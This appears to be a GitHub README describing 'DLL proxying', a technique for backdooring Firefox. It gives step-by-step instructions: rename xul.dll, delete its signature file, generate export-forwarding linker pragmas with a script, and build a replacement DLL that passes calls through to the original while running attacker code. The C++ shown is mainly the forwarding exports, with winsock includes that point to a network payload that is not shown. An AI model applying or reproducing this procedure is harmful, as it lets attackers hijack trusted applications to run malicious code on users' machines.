 # DLL Proxy

This technique allows to create a DLL as a proxy to forward the original needed functions by the application to the original DLL while attempting to run malicious code from the new DLL built.
The idea was taken from https://github.com/leetCipher/Malware.development/tree/main/dll-proxying 
Cheers to leetCipher.

# Exploit

Create a fake DLL for intercepting function calls from an application.
Steps for reproducing. In this demo, I'll try to backdoor `Firefox`

- Open a new Visual Studio Project -> DLL Type
- Copy the DDL that will be attacked in the same root directory of the `Visual Studio` project.
In the case of Firefox, I'll copy `xul.dll` (remember to delete `xul.dll.sig`)
- Rename the copied dll to something else. Example: from `xul.dll` to `assets.dll`
- Run the script `dll_export.py` providing the DLL we're attacking. This can take a while for a big application like `Firefox`. In my example I provided `assets.dll` to the script.
- Copy and paste `dllmain.cpp` content in the cpp main file in the project and paste the obtained output from `dll_export.py`
You should obtain something like this:

```cpp
#include "pch.h"
#include <Windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define WIN32_LEAN_AND_MEAN
#define _WINSOCK_DEPRECATED_NO_WARNINGS

#pragma comment(lib, "Ws2_32.lib")

#pragma comment(linker, "/export:?SetRemoteExceptionHandler@CrashReporter@@YA_NPEBDV?$Maybe@K@mozilla@@@Z=assets.?SetRemoteExceptionHandler@CrashReporter@@YA_NPEBDV?$Maybe@K@mozilla@@@Z")
#pragma comment(linker, "/export:DumpCompleteHeap=assets.DumpCompleteHeap")
#pragma comment(linker, "/export:DumpJSStack=assets.DumpJSStack")
#pragma comment(linker, "/export:GIFFT_LabeledTimingDistributionAccumulateRawMillis=assets.GIFFT_LabeledTimingDistributionAccumulateRawMillis")
#pragma comment(linker, "/export:GIFFT_LabeledTimingDistributionCancel=assets.GIFFT_LabeledTimingDistributionCancel")
#pragma comment(linker, "/export:GIFFT_LabeledTimingDistributionStart=assets.GIFFT_LabeledTimingDistributionStart")
#pragma comment(linker, "/export:GIFFT_LabeledTimingDistributionStopAndAccumulate=assets.GIFFT_LabeledTimingDistributionStopAndAccumulate")
#pragma comment(linker, "/export:GIFFT_TimingDistributionAccumulateRawSample=assets.GIFFT_TimingDistributionAccumulateRawSample")
#pragma comment(linker, "/export:GIFFT_TimingDistributionAccumulateRawSamples=assets.GIFFT_TimingDistributionAccumulateRawSamples")
#pragma comment(linker, "/export:GIFFT_TimingDistributionCancel=assets.GIFFT_TimingDistributionCancel")
#pragma comment(linker, "/export:GIFFT_TimingDistributionStart=assets.GIFFT_TimingDistributionStart")
#pragma comment(linker, "/export:GIFFT_TimingDistributionStopAndAccumulate=assets.GIFFT_TimingDistributionStopAndAccumulate")
#pragma comment(linker, "/export:JOG_MaybeReload=assets.JOG_MaybeReload")
#pragma comment(linker, "/export:JOG_RegisterMetric=assets.JOG_RegisterMetric")
#pragma comment(linker, "/export:JOG_RegisterPing=assets.JOG_RegisterPing")
#pragma comment(linker, "/export:VR_RuntimePath=assets.VR_RuntimePath")
#pragma comment(linker, "/export:XRE_GetBootstrap=assets.XRE_GetBootstrap")
#pragma comment(linker, "/export:gWinEventLogSourceName=assets.gWinEventLogSourceName")
#pragma comment(linker, "/export:mozilla_dump_image=assets.mozilla_dump_image")
```